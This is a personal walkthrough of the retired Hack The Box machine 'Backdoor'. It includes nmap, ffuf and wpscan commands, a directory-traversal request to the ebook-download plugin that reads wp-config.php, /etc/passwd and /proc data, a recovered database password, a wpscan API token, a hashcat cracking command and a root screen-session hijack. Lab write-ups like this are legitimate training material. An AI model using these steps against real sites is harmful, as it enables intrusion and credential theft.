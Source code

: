 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - WordPress
  - Screen
  - gdbserver
creation date: 2021-11-20
Date Completed: 2024-09-21
CVEs: 
URL: https://app.hackthebox.com/machines/Backdoor
IP: 10.129.96.68
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```
enumify.sh -H 10.129.96.68 -t All
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.domain.htb" -c
```

### wpscan


```
wpscan --url "http://backdoor.htb/wp-content/" -v -e --plugins-detection aggressive --api-token QqoyStKXPlydupJbq5IDVOLxt16WvSSXrkj1Pas5gaY
```

![[Pasted image 20240921091353.png]]

## Getting a foothold

https://www.exploit-db.com/exploits/39575

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

![[Pasted image 20240921091521.png]]

wordpressuser:MQYBJSaD#DxG6qbm
MQYBJSaD#DxG6qbm

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```

```
backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/apache2/sites-enabled/backdoor.htb.conf
```

### Getting the processes 

```
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd
```


### Getting  RCE

https://www.exploit-db.com/exploits/50539

## Enumerating from the inside

```
mysql -u wordpressuser -p -P 33060
Enter password: MQYBJSaD#DxG6qbm
```


### crack the wordpress admin password

```
hashcat -m 400 admin_hash ~/tools/rockyou.txt
```

## Priv Esc

Hijack screen session

```
export TERM=xterm
screen -x root/root
```